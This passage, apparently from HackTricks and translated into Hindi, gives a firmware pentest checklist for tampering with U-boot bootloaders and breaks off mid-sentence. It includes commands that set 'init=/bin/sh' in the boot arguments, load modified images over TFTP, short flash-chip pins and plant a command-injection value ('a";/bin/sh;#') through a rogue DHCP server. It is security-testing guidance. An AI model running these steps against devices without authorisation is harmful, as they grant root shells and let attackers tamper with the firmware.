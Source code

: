 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने की उपलब्धता** चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFT संग्रह**](https://opensea.io/collection/the-peass-family)

- [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके साझा करें**.

</details>


Copied from [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

जब डिवाइस की शुरुआत और बूटलोडर्स जैसे U-boot को संशोधित किया जाता है, तो निम्नलिखित कोशिश की जानी चाहिए:

* बूटलोडर्स इंटरप्रेटर शैल का उपयोग करने के लिए "0", स्पेस या अन्य पहचाने गए "मैजिक कोड" दबाएं।
* विन्यासों को संशोधित करें और बूट तर्कों के अंत में '`init=/bin/sh`' जैसे शैल आदेश को निष्पादित करने के लिए।
* `#printenv`
* `#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh`
* `#saveenv`
* `#boot`
* अपने कार्यस्थल से नेटवर्क के माध्यम से छवियों को लोड करने के लिए एक tftp सर्वर सेटअप करें। सुनिश्चित करें कि डिवाइस के पास नेटवर्क पहुंच है।
* `#setenv ipaddr 192.168.2.2 #डिवाइस का स्थानीय आईपी`
* `#setenv serverip 192.168.2.1 #tftp सर्वर आईपी`
* `#saveenv`
* `#reset`
* `#ping 192.168.2.1 #नेटवर्क पहुंच की उपलब्धता की जांच करें`
* `#tftp ${loadaddr} uImage-3.6.35 #loadaddr दो तर्क लेता है: फ़ाइल को लोड करने के लिए पता और TFTP सर्वर पर छवि का नाम`
* उबूट-इमेज लिखने के लिए `ubootwrite.py` का उपयोग करें और रूट प्राप्त करने के लिए संशोधित फर्मवेयर को पुश करें
* वर्बोज़ लॉगिंग
* विचित्र कर्नल लोड करना
* अविश्वसनीय स्रोतों से बूट करना
* \*सतर्कता बरतें: एक पिन को ग्राउंड से जोड़ें, डिवाइस बूट अप सीक्वेंस को देखें, कर्नल डीकंप्रेस होने से पहले, एसपीआई फ़्लैश चिप पर एक डेटा पिन (DO) पर ग्राउंड करें/जोड़ें
* \*सतर्कता बरतें: एक पिन को ग्राउंड से जोड़ें, डिवाइस बूट अप सीक्वेंस को देखें, कर्नल डीकंप्रेस होने से पहले, एसपीआई फ़्लैश चिप के 8 और 9 नंबर पिन को जोड़ें/जोड़ें, जब U-boot UBI इमेज को डीकंप्रेस करता है
* \*पिन को जोड़ने से पहले NAND फ़्लैश चिप के डेटाशीट की समीक्षा करें
* एक रोग DHCP सर्वर को दुरुपयोगी पैरामीटर के साथ कॉन्फ़िगर करें जो एक डिवाइस को PXE बूट के दौरान सेवन करने के लिए इनपुट होंगे
* Metasploit के (MSF) DHCP अतिरिक्त सर्वर का उपयोग करें और 'FILENAME' पैरामीटर को आदेश संशोधन आदेशों जैसे 'a";/bin/sh;#' के
